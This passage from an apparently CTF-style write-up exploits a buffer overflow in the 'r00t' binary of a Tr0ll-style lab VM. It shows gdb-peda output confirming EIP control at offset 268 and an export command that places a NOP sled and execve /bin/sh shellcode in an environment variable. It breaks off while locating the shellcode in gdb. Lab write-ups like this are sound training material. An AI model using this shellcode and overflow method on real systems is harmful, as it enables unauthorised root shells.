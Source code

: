 Standard buffer overflow process here (I don't want to teach you how to suck eggs tbh, there's enough resources online). EIP is at 269, so...

``` bash
gdb-peda$ r $(python -c 'print "A"*268 + "BBBB"');

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x110
EBX: 0xb7fbeff4 --> 0x15ed7c
ECX: 0xbffff4f8 --> 0xb7fbf4e0 --> 0xfbad2a84
EDX: 0xb7fc0360 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff630 --> 0x0
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbffff630 --> 0x0
0004| 0xbffff634 --> 0xbffff6d4 --> 0xbffff7f8 ("/root/troll/r00t")
0008| 0xbffff638 --> 0xbffff6e0 --> 0xbffff91a ("SHELL=/bin/bash")
0012| 0xbffff63c --> 0xb7fe0860 --> 0xb7e60000 --> 0x464c457f
0016| 0xbffff640 --> 0xb7ff6821 (mov    eax,DWORD PTR [ebp-0x10])
0020| 0xbffff644 --> 0xffffffff
0024| 0xbffff648 --> 0xb7ffeff4 --> 0x1cf2c
0028| 0xbffff64c --> 0x8048278 ("__libc_start_main")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$
```

OK, easy peasy. GDB identifies that there isn't a jmp esp in the binary, but it is a dynamically linked binary, so ret2libc is possible. But why make it more complicated for ourselves ? Naaah. Our shellcode can be placed in an environment value

``` bash
export SHELLCODE=$(python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"')
```

Which can be located within GDB

``` bash
gdb ./r00t
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /nothing_to_see_here/choose_wisely/door1/r00t...done.
(gdb) break main
Breakpoint 1 at 0x8048450: file bof.c, line 7.
(gdb) run
Starting program: /nothing_to_see_here/choose_wisely/door1/r00t 

Breakpoint 1, main (argc=1, argv=0xbffffcb4) at bof.c:7
(gdb) 7	bof.c: No such file or directory.
x/100xw $esp
```